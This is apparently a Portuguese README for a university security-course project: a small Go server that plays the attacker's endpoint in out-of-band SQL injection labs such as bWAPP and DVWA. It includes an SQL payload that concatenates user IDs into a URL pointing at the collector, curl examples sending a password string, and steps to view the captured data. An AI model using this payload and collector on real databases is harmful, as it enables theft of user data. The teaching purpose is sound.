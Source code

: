 # Servidor Malicioso Simples em Go (Out-of-Band SQLi)

Este projeto fornece uma API simples em Go para capturar dados enviados por aplicações vulneráveis a SQL Injection do tipo **Out-of-Band (OOB)**. Esta aplicação faz parte do projeto semestral de avaliação da disciplina MATC99 - SEGURANÇA E AUDITORIA DE SISTEMAS DE INFORMAÇÃO ministrada pelo Prof. Dr. Leobino Sampaio na Universidade Federal da Bahia.

## 🧪 Objetivo

A API simula um servidor malicioso externo (`http://malicious.com`) que recebe dados de sistemas comprometidos, como via payloads de SQLi que forçam requisições HTTP.

## 🛠️ Pré-requisitos

- Docker instalado, caso queira usar Docker ([instruções](https://docs.docker.com/get-docker/))
- Go (apenas se quiser rodar localmente sem Docker)

---

## ⚙️ Como usar (Sem Docker)

### 1. Clone o repositório

```bash
git clone https://github.com/brnocorreia/malicious.git
cd malicious
```

### 2. Compile o binário (opcional)

Você pode usar o binário já incluído (cheque a pasta `bin`), ou compilar manualmente (necessário ter o Go instalado):

- Para Linux (64 bits):

```bash
GOOS=linux GOARCH=amd64 go build -o malicious
```

- Para Windows:

```bash
GOOS=windows GOARCH=amd64 go build -o malicious.exe
```

### 3. Executando o servidor

Execute o servidor para escutar na porta 8080:

```bash
sudo ./malicious
```

### 4. Exemplo de requisição

```bash
curl "http://localhost:8080?data=senha:1234"
```

- Em ambientes como o bWAPP, modifique inputs para forçar chamadas HTTP com dados sensíveis para esse servidor.

```sql
SELECT 1, CONCAT('http://localhost:8080?data=', user_id) FROM users;
```

### 5. Acessando os dados capturados

- Através do navegador, você pode acessar a rota `http://localhost:8080/log` e ter acesso a todos os dados capturados em forma de plain text.
- Caso prefira, você também pode usar o comando abaixo no terminal e ver o arquivo por completo:

```bash
cat dados_capturados.txt
```

---

## ⚙️ Como usar (Docker)

### 1. Construa a imagem Docker

```bash
docker build -t malicious-server .
```

### 2. Crie diretório local para dados

- Esse passo é opcional caso você não queira ter acesso ao txt onde os dados capturados são armazenados. A aplicação usa a imagem scratch e por isso não é possível acessar o container, nem dar cat no arquivo. Usaremos a estratégia de volumes para ter acesso.

```bash
mkdir -p ./dados
```

### 3. Rodar o container com o volume montado

```bash
docker run -p 8080:8080 -v "$(pwd)/dados:/dados" --rm malicious-server
```

### 4. Exemplo de requisição

```bash
curl "http://localhost:8080?data=senha:1234"
```

- Em ambientes como o bWAPP, modifique inputs para forçar chamadas HTTP com dados sensíveis para esse servidor.

```sql
SELECT 1, CONCAT('http://localhost:8080?data=', user_id) FROM users;
```

### 5. Acessando os dados capturados

- Através do navegador, você pode acessar a rota `http://localhost:8080/log` e ter acesso a todos os dados capturados em forma de plain text.
- Caso prefira, você também pode usar o comando abaixo no terminal e ver o arquivo por completo:

```bash
cat ./dados/dados_capturados.txt
```

### 🛡️ Aviso Legal

Este projeto é exclusivamente educacional para testes em ambientes controlados e laboratório, como:

- bWAPP
- DVWA
- WebGoat

⚠️ Nunca use este código para fins maliciosos ou em sistemas sem autorização explícita.
